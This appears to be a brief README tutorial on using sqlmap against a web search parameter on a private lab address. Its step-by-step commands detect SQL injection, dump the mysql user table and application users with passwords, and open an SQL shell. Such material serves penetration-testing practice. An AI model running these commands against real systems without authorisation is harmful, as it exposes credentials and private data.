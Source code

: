 # Example of using sqlmap

1. Install Kali Linux.

2. Install Sqlmap.

```
sudo apt update
sudo apt install sqlmap
```

3. Open browser, navigate to target site, press F12 then F5.

4. Fill in some forms.

5. In developer console, go to Network tab, filter only Ajax and Doc requests.

6. Test target URL from command line.

```
curl 'http://172.25.32.1:8080/words?search=ab'
```

7. Run Sqlmap against target.

```
sqlmap -u 'http://172.25.32.1:8080/words?search=ab'
```

8. If unsuccessful, run again increasing level and risk.

```
sqlmap -u 'http://172.25.32.1:8080/words?search=ab' --level=3 --risk=3
```

9. After successful found of vulnerable parameter, list databases, tables and dump content.

```
sqlmap -u 'http://172.25.32.1:8080/words?search=ab' --dbs --current-user --current-db
sqlmap -u 'http://172.25.32.1:8080/words?search=ab' -D mysql --tables
sqlmap -u 'http://172.25.32.1:8080/words?search=ab' -D mysql -T user --dump
sqlmap -u 'http://172.25.32.1:8080/words?search=ab' -D example --tables
sqlmap -u 'http://172.25.32.1:8080/words?search=ab' -D example -T users --dump --passwords
sqlmap -u 'http://172.25.32.1:8080/words?search=ab' --sql-shell
```

10. It is possible to use POST requests too. But it will polute the database and will be much slower.
